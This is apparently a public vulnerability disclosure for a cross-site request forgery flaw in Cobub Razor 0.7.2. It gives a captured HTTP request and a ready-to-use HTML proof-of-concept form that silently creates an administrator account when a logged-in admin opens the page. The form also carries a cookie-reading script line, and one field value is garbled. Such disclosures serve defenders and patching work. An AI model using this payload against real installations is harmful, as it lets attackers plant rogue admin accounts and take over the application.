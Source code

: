 ﻿Vendor Homepage  :  http://www.cobub.com/  
 
Software Link    :  https://github.com/cobub/razor/releases
Version          :  0.7.2

##  CVE description  ##
A cross-site request forgery (CSRF) vulnerability exists in Western Bridge Cobub Razor 0.7.2 via /index.php?/user/createNewUser/, resulting in account creation.

##  Technical details  ##
In /index.php?/user/createNewUser/ POST:username=&email=&password=&confirm_password=&userrole=&user%2FccreateNewUser=.
Because the Cobub Razor is lack of identity authentication ,When attacker induce authenticated admin user to a malicious web page, the account will be created without admin user's intention.

##  Proof of Concept  ##
1. Login to console page.(/index.php?/auth/login -> /index.php?/)
2. Keep login and access the PoC payload html it has following content

request:
POST /index.php?/user/createNewUser/ HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Referer: http://localhost
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; MANMJS; rv:11.0) like Gecko
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 122
Host: localhost:80
Pragma: no-cache
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22c234df4ea2a0b843401dd9465f1c7c49%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A77%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+Trident%2F7.0%3B+MANMJS%3B+rv%3A11.0%29+like+Gecko%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520384883%3B%7D12178fe8e9554e0e6aa6007fb4476dfc
Connection: close

username=test123&email=test@test123.test&password=test&confirm_password=test&userrole=3&user%2FccreateNewUser=%E5%88%9B%E5%BB%BA

Userrole is 3, which means that the user is admin.

PoC payload:
<html>
  <body>
  <script>alert(document.cookie)</script>
    <form action="http://localhost/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
